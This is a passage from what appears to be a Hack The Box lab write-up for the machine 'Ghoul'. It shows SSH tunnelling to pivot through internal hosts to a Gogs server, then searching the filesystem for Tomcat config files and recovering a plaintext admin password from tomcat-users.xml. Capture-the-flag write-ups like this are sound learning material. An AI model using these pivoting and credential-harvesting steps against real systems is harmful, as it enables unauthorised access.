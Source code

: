 It’s not possible to connect to 22 without any more information. Time to do some port forwarding so we can recon port 3000!. It’s possible to do this a few ways, but let’s do this!

### Pivoting!!

127.0.0.1 3000 > 10.10.10.101 > 172.20.0.150

Open a new pane in tmux and run the following on Kali:
```commandline
root@kali:~/htb/machines/ghoul# ssh -L 127.0.0.1:3000:172.20.0.150:3000 kaneki@10.10.10.101 -i kaneki.key
Enter passphrase for key 'kaneki.key':
Last login: Sat May 11 21:04:48 2019 from 10.10.14.21
kaneki@Aogiri:~$
```

We should still be connected to 172.20.0.150 on initial pane:
```commandline
root@kali:~/htb/machines/ghoul# ssh -L 172.20.0.150:3000:172.18.0.2:3000 kaneki_pub@172.18.0.200
Enter passphrase for key 'kaneki.key':
Last login: Sat May 11 21:05:11 2019 from 172.20.0.10
kaneki_pub@kaneki-pc:~$
```

If all is well, go ahead and open a browser to:

http://127.0.0.1:3000

Found our Gogs Server!!!!

### Welcome to Gogs!
Now that we have a Gog ui, we have to figure out how to get in. Brute-forcing will not solve anything. We know from enumeration that AogiriTest is our best candidate for a user account, but what is the password?

#### Enumeration - Part deux!
Eventually, we look back at our initial box (10.10.10.101 for those playing at home). As we may remember, there are two web services, one on port 80 running apache, and one on port 8080 running Tomcat, we have to find the tomcat home directories.

Leaving your tunnel alone for now, open up yet another tmux pane and let’s find tomcat’s home directory in the .101 box

```commandline
kaneki@Aogiri:/$ find / -name "tomcat*" 2>/dev/null
/usr/share/tomcat7
<snip>

kaneki@Aogiri:/usr/share/tomcat7$ grep -r "aogiri"
conf/tomcat-users.xml:  <!--<user username="admin" password="test@aogiri123" roles="admin" />
```

Let’s log in with `AogiriTest:test@aogiri123`

Looking around, there’s not a lot here. Looks like it’s time to search the web for exploits and fun!
